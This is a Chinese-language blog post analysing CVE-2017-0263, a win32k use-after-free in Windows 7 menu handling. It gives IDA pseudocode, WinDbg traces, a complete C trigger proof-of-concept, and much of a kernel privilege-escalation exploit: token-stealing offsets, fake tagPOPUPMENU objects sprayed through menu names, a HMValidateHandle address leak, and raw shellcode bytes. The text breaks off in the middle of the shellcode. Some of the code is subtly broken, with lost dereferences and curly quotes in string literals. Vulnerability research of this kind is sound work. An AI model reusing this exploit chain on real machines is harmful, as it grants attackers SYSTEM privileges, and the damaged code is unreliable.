

title: CVE-2017-0263win32k.sys内核漏洞分析
date: 2020-11-27 14:42:13
tags: 漏洞分析
自从上次分析了CVE-2015-2546后并阅读了win32k用户回调的知识后 在小刀师傅的博客上看到了有关这个漏洞的相关知识 是一个菜单管理相关的漏洞 本来打算复习一下知识的 但着实是忍不住分析
CVE-2017-0263是一个win32k的菜单管理组件中的一个UAF漏洞 函数win32k!xxxMNEndMenuState中释放全局菜单状态对象的成员域pGlobalPopupMenu
指向的根弹出菜单对象时 没有将该成员域置零 导致该成员仍然指向已被释放的内存区域 即有可能再次使用
目标系统：Windows 7 32位
调试器：WinDbg
反汇编器：IDA Pro
xxxTrackPopupMenuEx负责菜单的弹出和追踪 调用xxxCreateWindowEx函数为即将被显示的菜单对象创建关联的类名称为#32768（MENUCLASS）的菜单窗口对象 类型为MENUCLASS 类型为MENUCLASS的窗口对象指定的的消息处理程序是 xxxMenuWindowProc 内核函数
int __stdcall xxxTrackPopupMenuEx(int a1, int a2, int xLeft, int yTop, PVOID P, int a6)
{
.
.
.
v16 = (_DWORD *)xxxCreateWindowEx(
385,
(wchar_t *)0x8000,
0x8000,
0,
-2139095040,
xLeft,
yTop,
100,
100,
(*(_DWORD *)(a1 + 20) & 0x40000000) != 0 ? (unsigned int)P : 0,
0,
*((_DWORD *)P + 9),
0,
1537,
0); //该函数设置窗口对象tagWND和弹出菜单对象tagPOPUPMENU
.
.
.
}不过这其中有很多细节 我们再展开的详细一些 大致如此
NtUserTrackPopupMenuEx
-->xxxTrackPopupMenuEx
-->xxxSetWindowPos//设置tagWND在屏幕中的坐标并显示在屏幕上
-->xxxEndDeferWindowPosEx
-->xxxSendChangedMsgs
-->xxxAddShadow
-->xxxMenuWindowProc使用xxxMNEndMenuState函数终止菜单 可通过多种途径到达
-->xxxMenuWindowProc//接收MN_ENDMENU（0x1F3） 消息值开始销毁
-->xxxEndMenuLoop//隐藏菜单的显示和销毁预处理
-->xxxMNDismiss
-->xxxMNCancel执行菜单取消
-->xxxMNCloseHierarchy
-->xxxDestroyWindow//销毁菜单（xxxSetWindowPos隐藏目标菜单窗口-->xxxSendChangedMsgs 发送窗口位置已改变的消息-->调用函数 xxxRemoveShadow移除阴影窗口对象）
-->xxxFreeWindow //执行对目标窗口对象的后续销毁操作(执行完下面四步后再次执行xxxRemoveShadow函数移除阴影窗口对象的关联)
-->xxxWrapMenuWindowProc//消息处理
-->xxxMenuWindowProc//接收消息调用下一步函数
-->xxxMNDestroyHandler//清理相关数据在执行完这一切后 由于锁计数尚未归零 因此目标窗口对象仍旧存在于内核中并等待后续的操作
-->xxxDestroyWindow执行返回后回到下面
-->xxxMNCloseHierarchy//对成员域进程置空
-->xxxMNCancel//继续返回到此处-->-->xxxDestroyWindow//销毁当前菜单对象
-->xxxTrackPopupMenuEx返回到此处对关联的弹出窗口置位
-->xxxMenuWindowProc返回到此处调用-->xxxMNEndMenuState清理非模态类型的菜单状态信息并释放相关对象在函数xxxMNEndMenuState执行时 系统调用函数MNFreePopup来师傅由当前菜单状态tagMENUSTATE对象的成员域pGlobalPopupMenu指向的根弹出菜单对象
函数MNFreePopup在一开始判断通过参数传入的目标弹出菜单对象是否为当前的根弹出菜单 如果是则调用函数MNFlushDestroyedPopups以遍历并释放成员域ppmDelayedFree 指向的弹出菜单对象延迟释放链表中的各个弹出菜单对象
void __stdcall MNFreePopup(PVOID P)
{
int v1; // eax
if ( P == *((PVOID *)P + 8) ) //判断是否为当前根菜单
MNFlushDestroyedPopups(P, 1);
.
.
.
}函数MNFlushDestroyedPopups遍历链表中的每个弹出菜单对象 并标记标志位fDestroyed的对象调用MNFreePopup函数 标志位fDestroyed当初在调用函数xxxMNDestroyHandler时被置位
int __stdcall MNFlushDestroyedPopups(int a1, int a2)
{
int v2; // esi
int result; // eax
_DWORD *v4; // ecx
_DWORD *v5; // ST00_4
v2 = a1;
for ( result = a1 + 36; *(_DWORD *)result; result = v2 + 36 ) //每个fDestroyed遍历调用MNFreePopup函数
{
v4 = *(_DWORD **)result;
if ( **(_DWORD **)result & 0x8000 )
{
v5 = *(_DWORD **)result;
*(_DWORD *)result = v4[9];
MNFreePopup(v5);
}
else if ( a2 )
{
*v4 &= 0xFFFEFFFF;
*(_DWORD *)result = *(_DWORD *)(*(_DWORD *)result + 36);
}
else
{
v2 = *(_DWORD *)result;
}
}
return result;
}函数返回后MNFreePopup函数调用HMAssignmentUnlock函数解除spwndPopupMenu等各个窗口的赋值锁 因为在内核中没和窗口对象起始位置存在成员结构体HEAD对象 每当结构体被使用时 锁计数增加 当对象不再被特定组件使用时 锁计数减小 数值为0时 即该对象不再被使用会被释放 调用HMUnlockObjectInternal函数销毁该对象
在函数MNFreePopup的末尾 调用ExFreePoolWithTag函数释放目标弹出菜单tagPOPMENU对象
函数xxxMNEndMenuState在调用函数MNFreePopup释放弹出菜单信息结构体的各个成员域之后 会将当前菜单状态对象的成员域pmnsPrev存储的前菜单状态对象指针赋值给当前线程信息结构体对象的成员域pMenuState指针 通常情况下pmnsPrev的值为0
在弹出菜单期间 系统在各个追踪弹出菜单的函数或系统服务中都是通过线程信息对象的成员域pMenuState指针来获取菜单状态的 如果赋值为其他值 就会导致触发漏洞失败 所以抵达xxxMNEndMenuState必须在系统充值pMenuState之前进行
而在释放函数释放成员域 pGlobalPopupMenu指向的根弹出菜单对象和重置线程信息对象的成员域 pMenuState之间 只有两个函数调用
UnlockMFMWFPWindow(&menuState->uButtonDownHitArea); //uButtonDownHitArea存储鼠标点击坐标为u与窗口对象指针
UnlockMFMWFPWindow(&menuState->uDraggingHitArea); //uDraggingHitArea存储鼠标拖拽左边位于窗口对象指针首先已经得到漏洞点出在win32k!xxxMNEndMenuState函数中 看一些关于这个函数的事情 这个函数会调用MNFreePopup函数 上面也解释过
void __stdcall MNFreePopup(PVOID P)
{
int v1; // eax
if ( P == *((PVOID *)P + 8) ) //判断是否为当前根菜单
MNFlushDestroyedPopups(P, 1);
v1 = *((_DWORD *)P + 2);
if ( v1 && (*(_WORD *)(v1 + 42) & 0x3FFF) == 668 && P != &gpopupMenu )
*(_DWORD *)(v1 + 176) = 0;
HMAssignmentUnlock((char *)P + 8);
HMAssignmentUnlock((char *)P + 12);
HMAssignmentUnlock((char *)P + 16);
UnlockPopupMenu(P, (char *)P + 20);
UnlockPopupMenu(P, (char *)P + 24);
HMAssignmentUnlock((char *)P + 4);
HMAssignmentUnlock((char *)P + 28);
if ( P == &gpopupMenu )
gdwPUDFlags &= 0xFF7FFFFF;
else
ExFreePoolWithTag(P, 0);
}在函数的最后将P指针释放后 并没有对指针置零 所以导致野指针的出现 出现了漏洞 crash的思路就是控制程序让根菜单对象二次释放
现在的问题是如何二次释放？
在弹出菜单的时候 有一个阴影窗口的概念 当我们创建每个窗口的时候 会产生与之对应的阴影窗口 每个阴影窗口也都有tagWND 但阴影窗口没有专门的窗口消息处理函数 所以我们可以在用户进程中将窗口对象的消息处理函数成员域改为由用户进程自定义处理消息处理函数 在自定义窗口中 再次触发菜单终止的任务 就可以导致二次释放
阴影窗口使用xxxAddShadow来创建对象（或许我该在上面窗口那部分讲 但总归是觉得放在这里好些）使用断点查看阴影窗口的创建过程 使用xxxTrackPopupMenuEx函数来创建 其中会调用xxxCreateWindowEx 而hook就是在调用xxxCreateWindowEx过程中
ba e1 win32k!xxxAddShadow
在函数调用中 使用xxxCreateWindowEx创建窗口对象成功后 函数向该窗口对象发送WM_MCCREATE消息 这一步通过xxxSendMessage函数实现 而xxxSendMessage函数又会调用xxxSendMessageTimeout函数 而在调用xxxSendMessageTimeout之前 会调用xxxCallHook函数来调用先前由用户进程设定的WH_CALLWNDPROC类型的挂钩处理程序 则我们可以将其执行到我们的挂钩函数中进程Hook
emmm 使用小刀师傅的poc查看函数的执行流 代码如下：
#include <stdio.h>
#include <Windows.h>
#define MN_ENDMENU 0x1F3 //处理窗口消息
static constexpr UINT num_PopupMenuCount = 2;
static HMENU hpopupMenu[num_PopupMenuCount] = { 0 };
static UINT iMenuCreated = 0;
static UINT iShadowCount = 0;
static HWND hwndMenuHit = 0;
ULONG_PTR
xxSyscall(UINT num, ULONG_PTR param1, ULONG_PTR param2)//系统中断调用
{
__asm { mov eax, num };
__asm { int 2eh };
}
CONST UINT num_NtUserMNDragLeave = 0x11EC; //
LRESULT WINAPI
xxShadowWindowProc(
_In_ HWND hwnd,
_In_ UINT msg,
_In_ WPARAM wParam,
_In_ LPARAM lParam
) //阴影窗口处理
{
if (msg == WM_NCDESTROY)//如果是WM_NCDESTROY类型 就直接调用NtUserMNDragLeave服务
{
xxSyscall(num_NtUserMNDragLeave, 0, 0);
}
return DefWindowProcW(hwnd, msg, wParam, lParam);
}
VOID CALLBACK
xxWindowEventProc(
HWINEVENTHOOK hWinEventHook,
DWORD event,
HWND hwnd,
LONG idObject,
LONG idChild,
DWORD idEventThread,
DWORD dwmsEventTime
) //事件通知处理
{
if (++iMenuCreated >= 2)
{
SendMessageW(hwnd, MN_ENDMENU, 0, 0);//弹出的子菜单已经显示 发送MN_ENDMENU菜单终止消息
}
else
{
SendMessageW(hwnd, WM_LBUTTONDOWN, 1, 0x00020002); //向参数句柄hwnd指向的菜单窗口对象发送WM_LBUTTONDOWN鼠标左键按下的消息 xxxMenuWindowProc接收处理该消息 然后调用xxxMNOpenHierarchy创建新的弹出子菜单的相关对象 接着调用xxxWindowEvent发送EVENT_SYSTEM_MENUPOPUPSTART事件通知再次进入xxxWindowEventProc函数
}
}
LRESULT CALLBACK
xxWindowHookProc(INT code, WPARAM wParam, LPARAM lParam) //挂钩处理函数进程Hook
{
tagCWPSTRUCT *cwp = (tagCWPSTRUCT *)lParam;
if (cwp->message != WM_NCCREATE) //根据参数lParam指向的成员域message判断当前处理的消息是否为WM_NCCREATE消息
{
return CallNextHookEx(0, code, wParam, lParam);
}
WCHAR szTemp[0x20] = { 0 };
GetClassNameW(cwp->hwnd, szTemp, 0x14);
if (!wcscmp(szTemp, L"#32768")) //当类为"#32768"时为菜单窗口来纪录句柄
{
hwndMenuHit = cwp->hwnd;
}
if (!wcscmp(szTemp, L"SysShadow") && hwndMenuHit != NULL) //判断窗口类名称的位置增加判断是否为SysShadow
{
iShadowCount++;
if (iShadowCount == 3) //每个弹出菜单窗口对象都调用了两次xxxRemoveShadow函数 则当指向到第三次的时候才可执行SetWindowLongW函数
{
SetWindowLongW(cwp->hwnd, GWL_WNDPROC, (LONG)xxShadowWindowProc);//将目标阴影窗口改为自定义阴影窗口消息处理函数
}
else //否则通过调用函数 SetWindowPos对先前保存句柄指向的类名称为#32768的窗口对象依次设置SWP_HIDEWINDOW和 SWP_SHOWWINDOW状态标志使窗口先隐藏后显示 再次触发内核中添加阴影窗口关联的逻辑以创建新的阴影窗口对象
{
SetWindowPos(hwndMenuHit, NULL, 0, 0, 0, 0, SWP_NOSIZE | SWP_NOMOVE | SWP_NOZORDER | SWP_HIDEWINDOW);//触发创建新的阴影窗口关联的逻辑
SetWindowPos(hwndMenuHit, NULL, 0, 0, 0, 0, SWP_NOSIZE | SWP_NOMOVE | SWP_NOZORDER | SWP_SHOWWINDOW);
}
}
return CallNextHookEx(0, code, wParam, lParam);
}
int main()
{
LPCSTR szMenuItem = "item";
MENUINFO mi = { 0 };
mi.cbSize = sizeof(mi);
mi.fMask = MIM_STYLE;
mi.dwStyle = MNS_AUTODISMISS | MNS_MODELESS | MNS_DRAGDROP;
HMENU hpopupMenu[2] = { 0 };
hpopupMenu[0] = CreatePopupMenu();//创建两个非模态的可弹出菜单对象
hpopupMenu[1] = CreatePopupMenu();
SetMenuInfo(hpopupMenu[0], &mi);//设置两个指定菜单的信息
SetMenuInfo(hpopupMenu[1], &mi);
AppendMenuA(hpopupMenu[0], MF_BYPOSITION | MF_POPUP, (UINT_PTR)hpopupMenu[1], szMenuItem);//添加菜单项
AppendMenuA(hpopupMenu[1], MF_BYPOSITION | MF_POPUP, 0, szMenuItem);//是第一个的子菜单
WNDCLASSEXW wndClass = { 0 };
wndClass = { 0 };
wndClass.cbSize = sizeof(WNDCLASSEXW);
wndClass.lpfnWndProc = DefWindowProcW;
wndClass.cbWndExtra = 0;
wndClass.hInstance = GetModuleHandleA(NULL);
wndClass.lpszMenuName = NULL;
wndClass.lpszClassName = L"WNDCLASSMAIN";
RegisterClassExW(&wndClass);
HWND hWindowMain = CreateWindowExW(WS_EX_LAYERED | WS_EX_TOOLWINDOW | WS_EX_TOPMOST,
L"WNDCLASSMAIN",
NULL,
WS_VISIBLE,
0, // x
0, // y
1, // width
1, // height
NULL,
NULL,
GetModuleHandleA(NULL),
NULL); //创建一个普通的窗口对象作为弹出菜单的拥有者窗口对象
SetWindowsHookExW(WH_CALLWNDPROC, xxWindowHookProc,
GetModuleHandleA(NULL),
GetCurrentThreadId()); //创建类型为WH_CALLWNDPROC关联当前线程的挂钩程序每次线程将消息发送给窗口对象之前调用
SetWinEventHook(EVENT_SYSTEM_MENUPOPUPSTART, EVENT_SYSTEM_MENUPOPUPSTART,
GetModuleHandleA(NULL),
xxWindowEventProc,
GetCurrentProcessId(),
GetCurrentThreadId(),
0); //创建EVENT_SYSTEM_MENUPOPUPSTART的关联当前进程和线程的事件通知消息处理程序 表示目标弹出菜单已被显示在屏幕上
TrackPopupMenuEx(hpopupMenu[0], 0, 0, 0, hWindowMain, NULL); //第一个菜单创建弹出
MSG msg = { 0 };
while (GetMessageW(&msg, NULL, 0, 0)) //消息循环
{
TranslateMessage(&msg);
DispatchMessageW(&msg);
}
return 0;
} 至此 触发代码分析完毕~
运行之后WinDbg断下 使用!analyze分析漏洞原因 然后kv查看函数栈回溯 我们可以观察到同一块地址被释放了两次
触发成功 我们来整理一下
-->创建两个弹出菜单 第二个为第一个的子菜单
-->调用xxxCreateWindowExW创建窗口对象作为窗口对象的拥有者
-->开始Hook 对于前两次进入的函数调用函数SetWindowPos触发创建新的阴影窗口关联的逻辑 第三次调用SetWindowLong将目标阴影窗口对象的消息处理函数篡改为自定义的阴影窗口消息处理函数
-->第一次正常调用发送菜单窗口对象发送WM_LBUTTONDOWN鼠标左键按下的消息显示子菜单 第二次发送MN_ENDMENU消息关闭菜单
-->调用xxxMNEndMenuSate销毁菜单信息释放tagPOPUPMENU内存对象
-->将根菜单的根技术变为0 销毁菜单对象 会调用xxxRemoveShadow消除阴影窗口对象 然后就来到我们自定义的阴影窗口消息处理函数
-->再次调用xxxMNEndMenuState来二次释放tagPOPMENU内存区域tag：这里需要解释一下 在我们自定义的阴影窗口中明明没有调用xxxMNEndMenuState函数却为什么说调用 先来看看这段代码
LRESULT WINAPI
xxShadowWindowProc(
_In_ HWND hwnd,
_In_ UINT msg,
_In_ WPARAM wParam,
_In_ LPARAM lParam
)
{
if (msg == WM_NCDESTROY)
{
xxSyscall(num_NtUserMNDragLeave, 0, 0);
}
return DefWindowProcW(hwnd, msg, wParam, lParam);
}NtUserMNDragLeave函数系统在进行一系列的判断和调用之后 最终在函数xxxUnlockMenuState中调用xxxMNEndMenuState函数:
int __stdcall NtUserMNDragLeave()
{
signed int v0; // esi
UserEnterUserCritSec();
v0 = xxxMNDragLeave();//这里进入
UserSessionSwitchLeaveCrit();
return v0;
}
``````````````````````````````````````````````````````````````````````````
signed int __stdcall xxxMNDragLeave()
{
_DWORD *v0; // esi
v0 = (_DWORD *)*((_DWORD *)gptiCurrent + 65);
if ( !v0 )
return 0;
++v0[7];
xxxMNSetGapState(v0[14], v0[15], v0[16], 0);
UnlockMFMWFPWindow(v0 + 14);
v0[15] = -1;
v0[16] = 0;
v0[1] &= 0xFFFF7FFF;
xxxUnlockMenuState(v0);
return 1;
}
````````````````````````````````````````````````````````````````````````````
signed int __stdcall xxxUnlockMenuState(_DWORD *a1)
{
bool v1; // zf
v1 = a1[7]-- == 1;
if ( !v1 || !ExitMenuLoop(a1, *a1) )
return 0;
xxxMNEndMenuState(1);
return 1;
}现在唯一知道的可以利用点就是在消除阴影窗口对象的时候 会调用我们的自定义阴影窗口处理函数 所以我们只能从这个阴影窗口对象入手
首先是shellcode地址的分配 使用了结构体存储利用相关的数据
typedef struct _SHELLCODE {
DWORD reserved;
DWORD pid;
DWORD off_CLS_lpszMenuName;
DWORD off_THREADINFO_ppi;
DWORD off_EPROCESS_ActiveLink;
DWORD off_EPROCESS_Token;
PVOID tagCLS[0x100];
BYTE pfnWindProc[];
} SHELLCODE, *PSHELLCODE;在用户空间分配完整内存页RWX内存块存储shellcode的相关内容 并将shellcode拷贝到成员域pfWindProc起始的内存地址
pvShellCode = (PSHELLCODE)VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (pvShellCode == NULL)
{
return 0;
}
ZeroMemory(pvShellCode, 0x1000); //分配0页内存
pvShellCode->pid = GetCurrentProcessId(); //进程pid
pvShellCode->off_CLS_lpszMenuName = 0x050; //SDK菜单指定
pvShellCode->off_THREADINFO_ppi = 0x0b8; //
pvShellCode->off_EPROCESS_ActiveLink = 0x0b8; //EPROCESS偏移0xb8处的ActiveProcessLinks为_LIST_ENTRY 是一个双向链表
pvShellCode->off_EPROCESS_Token = 0x0f8; //Token值 替换为system的即为系统权限
CopyMemory(pvShellCode->pfnWindProc, xxPayloadWindProc, sizeof(xxPayloadWindProc)); //将payload复制到pfnWindProc接下来执行xxTrackExploitEx函数 调用CreateWindowEx函数来创建大量的窗口对象 然后伪造tagPOPUPEMENU由后面的实现
for (INT i = 0; i < 0x100; i++)
{
WNDCLASSEXW Class = { 0 };
WCHAR szTemp[20] = { 0 };
HWND hwnd = NULL;
wsprintfW(szTemp, L"%x-%d", rand(), i);
Class.cbSize = sizeof(WNDCLASSEXA);
Class.lpfnWndProc = DefWindowProcW;
Class.cbWndExtra = 0;
Class.hInstance = GetModuleHandleA(NULL);
Class.lpszMenuName = NULL;
Class.lpszClassName = szTemp;
if (!RegisterClassExW(&Class))
{
continue;
}
hwnd = CreateWindowExW(0, szTemp, NULL, WS_OVERLAPPED,
0,
0,
0,
0,
NULL,
NULL,
GetModuleHandleA(NULL),
NULL);
if (hwnd == NULL)
{
continue;
}
hWindowList[iWindowCount++] = hwnd;
}代码接下来获取tagCLS地址并存储在结构体SHELLCODE对象中
for (INT i = 0; i < iWindowCount; i++)
{
pvShellCode->tagCLS[i] = *(PVOID*)((PBYTE)xxHMValidateHandle(hWindowList[i]) + num_offset_WND_pcls);
}然后调用 VirtualProtect函数在调用进程的虚拟地址空间中更改对提交页面区域的保护
DWORD fOldProtect = 0;
VirtualProtect(pvShellCode, 0x1000, PAGE_EXECUTE_READ, &fOldProtect);接下来在xxTrackExploitEx函数中调用了xxRegisterWindowClassW函数来注册窗口类和再次xxCreateWindowExW函数来创建窗口对象
前面伪造的tagPOPUPMENU对象重新占用了先前释放的根菜单对象的内存区域 并且其各个成员域在利用代码中分配时可以实施完全控制 但前面并未对成员域进行有效设置 则在执行xxxMNEndMenuState中解锁各个指针成员域指向的对象时会触发缺页异常等错误 所以就有了下面0x200的扩展区域
这里第二次创建新的载体窗口对象hWindowMain具有0x200字节大小的扩展区域 在利用代码中将用来伪造各种相关的内核用户对象 以使系统从新执行xxxMNEndMenuState期间 执行流能够稳定的执行
xxRegisterWindowClassW(L"WNDCLASSMAIN", 0x000);
hWindowMain = xxCreateWindowExW(L"WNDCLASSMAIN",
WS_EX_LAYERED | WS_EX_TOOLWINDOW | WS_EX_TOPMOST,
WS_VISIBLE);
xxRegisterWindowClassW(L"WNDCLASSHUNT", 0x200);
hWindowHunt = xxCreateWindowExW(L"WNDCLASSHUNT",
WS_EX_LEFT,
WS_OVERLAPPED);通过HMValidateHandle内核对象地址泄露技术获取载体对象的tagWND内核地址
PTHRDESKHEAD head = (PTHRDESKHEAD)xxHMValidateHandle(hWindowHunt);tagWND的头部是一个THRDESKHEAD成员结构体对象 完整的如下 pSelf指向所属用户对象的内核首地址 加上tagWND结构体的大小定位到当前窗口对象扩展的内核地址
kd> dt win32k!_THRDESKHEAD
+0x000 h : Ptr32 Void
+0x004 cLockObj : Uint4B
+0x008 pti : Ptr32 tagTHREADINFO
+0x00c rpdesk : Ptr32 tagDESKTOP
+0x010 pSelf : Ptr32 UChar然后调用SetWindowLongW函数来更改窗口的属性 将载体窗口对象的扩展区域预留4字节 将剩余0x1FC字节的内存区域全部填充为扩展区域+0x04字节偏移的地址 填充的数值将作为各种伪造对象的句柄 引用计数或对象指针成员域 伪造的原因是xxxMNEndMenuState在执行的初始阶段调用函数MNEndMenuStateNotify用来通知窗口对象所属线程和当前菜单状态所属线程不同的情况下 清理了通知线程的线程信息对象的成员域pMenuState数值 伪造的tagPOPUPMENU对象已覆盖原有数据 所以要继续伪造对象
PBYTE pbExtra = head->deskhead.pSelf + 0xb0 + 4;
pvHeadFake = pbExtra + 0x44;
for (UINT x = 0; x < 0x7F; x++)
{
SetWindowLongW(hWindowHunt, sizeof(DWORD) * (x + 1), (LONG)pbExtra);
}
PVOID pti = head->thread.pti;
SetWindowLongW(hWindowHunt, 0x28, 0);
SetWindowLongW(hWindowHunt, 0x50, (LONG)pti); // pti
SetWindowLongW(hWindowHunt, 0x6C, 0);
SetWindowLongW(hWindowHunt, 0x1F8, 0xC033C033);
SetWindowLongW(hWindowHunt, 0x1FC, 0xFFFFFFFF);这两行代码单独拿出来说 成员标志位bServerSideWindowProc位于tagWND对象标志成员域的第18比特位 之前的两个标志位是bDialogWindow和bHasCreatestructName标志位 而bDialogWindow是bServerSideWindowProc所在字节的起始位置比特位 bServerSideWindowProc是用来决定所属窗口对象的消息处理函数属于服务端还是客户端 前面也说到过 该位置置位会使当前线程在内核上下文调用目标窗口对象消息处理函数
kd> dt win32k!tagWND
+0x000 head : _THRDESKHEAD
.
.
.
+0x014 bDialogWindow : Pos 16, 1 Bit
+0x014 bHasCreatestructName : Pos 17, 1 Bit
+0x014 bServerSideWindowProc : Pos 18, 1 Bit所以我们在利用代码填充载体窗口对象扩展区域内存期间 增加通过内核地址泄露技术获取窗口对象成员域bDialogWindow的地址调用 然后对先去初始化的SHELLCODE对象成员域pfnWindProc起始地址设置为载体窗口对象hWindowHunt的消息处理函数
pvAddrFlags = *(PBYTE*)((PBYTE)xxHMValidateHandle(hWindowHunt) + 0x10) + 0x16;
SetWindowLongW(hWindowHunt, GWL_WNDPROC, (LONG)pvShellCode->pfnWindProc);接下来就是调用 xxWindowHookProc函数 其中调用函数xxShadowWindowProc然后调用函数SetClassLong函数对刚才大量的窗口对象设置MENUNAME字段的方式实现 而MENUNAME字段属于WCHAR字符串格式 因此在初始化缓冲区时需要将所偶数值设置为不包含连续2字节为0的情况 通过调用函数SetClassLongW为目标窗口对象设置MENUNAME字段时 系统最终在内核中为窗口对象所属的窗口类tagCLS对象的成员域分配并设置UNICODE字符串缓冲区
由于成员域lpszMenuName指向的缓冲区和弹出菜单tagPOPUPMENU对象的缓冲区同样是进程配额的内存块 大小形同 那么MENUNAME可以成为伪造的tagPOPMENU对象
SetWindowsHookExW(WH_CALLWNDPROC, xxWindowHookProc,
GetModuleHandleA(NULL),
GetCurrentThreadId());
SetWindowLongW(cwp->hwnd, GWL_WNDPROC, (LONG)xxShadowWindowProc); //函数xxWindowHookProc
`````````````````````````````````````````````````````````````````````````````````````````````````
DWORD dwPopupFake[0xD] = { 0 }; //函数xxShadowWindowProc
dwPopupFake[0x0] = (DWORD)0x00098208; //->flags
dwPopupFake[0x1] = (DWORD)pvHeadFake; //->spwndNotify
dwPopupFake[0x2] = (DWORD)pvHeadFake; //->spwndPopupMenu
dwPopupFake[0x3] = (DWORD)pvHeadFake; //->spwndNextPopup
dwPopupFake[0x4] = (DWORD)pvAddrFlags - 4; //->spwndPrevPopup
dwPopupFake[0x5] = (DWORD)pvHeadFake; //->spmenu
dwPopupFake[0x6] = (DWORD)pvHeadFake; //->spmenuAlternate
dwPopupFake[0x7] = (DWORD)pvHeadFake; //->spwndActivePopup
dwPopupFake[0x8] = (DWORD)0xFFFFFFFF; //->ppopupmenuRoot //防止执行流误入歧途
dwPopupFake[0x9] = (DWORD)pvHeadFake; //->ppmDelayedFree
dwPopupFake[0xA] = (DWORD)0xFFFFFFFF; //->posSelectedItem //防止执行流误入歧途
dwPopupFake[0xB] = (DWORD)pvHeadFake; //->posDropped
dwPopupFake[0xC] = (DWORD)0;
for (UINT i = 0; i < iWindowCount; ++i)
{
SetClassLongW(hWindowList[i], GCL_MENUNAME, (LONG)dwPopupFake);//对前面批量创建的普通窗口对象设置 GCL_MENUNAME 的调用
}
在自定义阴影窗口xxShadowWindowProc的最后 调用NtUserMNDragLeave之后 增加对载体窗口对象发送自定义提权消息0x9F9F的调用语句 并返回保存在bDoneExploit中
xxSyscall(num_NtUserMNDragLeave, 0, 0);
LRESULT Triggered = SendMessageW(hWindowHunt, 0x9F9F, popupMenuRoot, 0);
bDoneExploit = Triggered == 0x9F9F;
#### xxWindowEventProc函数の执行
接下来又回到xxShadowWindowProc函数 然后函数调用xxWindowEventProc函数
SetWinEventHook(EVENT_SYSTEM_MENUPOPUPSTART, EVENT_SYSTEM_MENUPOPUPSTART,
GetModuleHandleA(NULL),
xxWindowEventProc,
GetCurrentProcessId(),
GetCurrentThreadId(),
0);
在xxWindowEventProc函数中 首先指定了很多成员域 然后调用xxHMValidateHandle 这个函数在根据判断调用xxGetHMValidateHandle函数查找并计算HMValidateHandle函数地址
static
PVOID
xxHMValidateHandle(HWND hwnd)
{
PVOID RetAddr = NULL;
if (!pfnHMValidateHandle)
{
xxGetHMValidateHandle();
}
if (pfnHMValidateHandle)
{
RetAddr = xxHMValidateHandleEx(hwnd);
}
return RetAddr;
}
······························································································
static
VOID
xxGetHMValidateHandle(VOID)
{
HMODULE hModule = LoadLibraryA(“USER32.DLL”);
PBYTE pfnIsMenu = (PBYTE)GetProcAddress(hModule, “IsMenu”);
PBYTE Address = NULL;
for (INT i = 0; i < 0x30; i++)
{
if ((WORD)(i + pfnIsMenu) != 0x02B2)
{
continue;
}
i += 2;
if ((BYTE)(i + pfnIsMenu) != 0xE8)
{
continue;
}
Address = (DWORD)(i + pfnIsMenu + 1) + pfnIsMenu;
Address = Address + i + 5;
pfnHMValidateHandle = (PVOID(__fastcall*)(HANDLE, BYTE))Address;
break;
}
}
接下来在利用代码中获取窗口对象等类型用户对象的地址的时机调用该函数并传入对象句柄 调用成功则返回目标对象在用户进程桌面堆中的映射地址
#define TYPE_WINDOW 1
static
PVOID
xxHMValidateHandleEx(HWND hwnd)
{
return pfnHMValidateHandle((HANDLE)hwnd, TYPE_WINDOW);
}
接下来就是调用[TrackPopupMenuEx函数](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-trackpopupmenuex)来显示菜单了
然后回到main函数中 执行创建cmd窗口函数
## 还有一些小问题
### 关于shellcode
static
BYTE
xxPayloadWindProc[] = {
// Loader+0x108a:
// Judge if the msg is 0x9f9f value.
0x55, // push ebp
0x8b, 0xec, // mov ebp,esp
0x8b, 0x45, 0x0c, // mov eax,dword ptr [ebp+0Ch]
0x3d, 0x9f, 0x9f, 0x00, 0x00, // cmp eax,9F9Fh
0x0f, 0x85, 0x8d, 0x00, 0x00, 0x00, // jne Loader+0x1128
//判断刚才的0x9F9F 是否为我们的提权消息
// Loader+0x109b:
// Judge if CS is 0x1b, which means in user-mode context.
0x66, 0x8c, 0xc8, // mov ax,cs
0x66, 0x83, 0xf8, 0x1b, // cmp ax,1Bh
0x0f, 0x84, 0x80, 0x00, 0x00, 0x00, // je Loader+0x1128
//32位操作系统用户上下文代码段寄存器CS的值位0x1B 判断是否在用户模式运行
// Loader+0x10a8:
// Get the address of pwndWindowHunt to ECX.
// Recover the flags of pwndWindowHunt: zero bServerSideWindowProc.
// Get the address of pvShellCode to EDX by CALL-POP.
// Get the address of pvShellCode->tagCLS[0x100] to ESI.
// Get the address of popupMenuRoot to EDI.
0xfc, // cld
0x8b, 0x4d, 0x08, // mov ecx,dword ptr [ebp+8]
0xff, 0x41, 0x16, // inc dword ptr [ecx+16h]
//恢复载体窗口对象的成员标志位为初始值
0x60, // pushad
0xe8, 0x00, 0x00, 0x00, 0x00, // call $5
0x5a, // pop edx
0x81, 0xea, 0x43, 0x04, 0x00, 0x00, // sub edx,443h
// 备份当前所有通用寄存器的数值在栈上根据偏移算出存储shellcode函数代码前面位置的结构体SHELLCODE对象的首地址
0xbb, 0x00, 0x01, 0x00, 0x00, // mov ebx,100h
0x8d, 0x72, 0x18, // lea esi,[edx+18h]
0x8b, 0x7d, 0x10, // mov edi,dword ptr [ebp+10h]
// Loader+0x10c7:
0x85, 0xdb, // test ebx,ebx
0x74, 0x13, // je Loader+0x10de
// Loader+0x10cb:
// Judge if pvShellCode->tagCLS[ebx] == NULL
0xad, // lods dword ptr [esi]
0x4b, // dec ebx
0x83, 0xf8, 0x00, // cmp eax,0
0x74, 0xf5, // je Loader+0x10c7
// Loader+0x10d2:
// Judge if tagCLS->lpszMenuName == popupMenuRoot
0x03, 0x42, 0x08, // add eax,dword ptr [edx+8]
0x39, 0x38, // cmp dword ptr [eax],edi
0x75, 0xee, // jne Loader+0x10c7
// Loader+0x10d9:
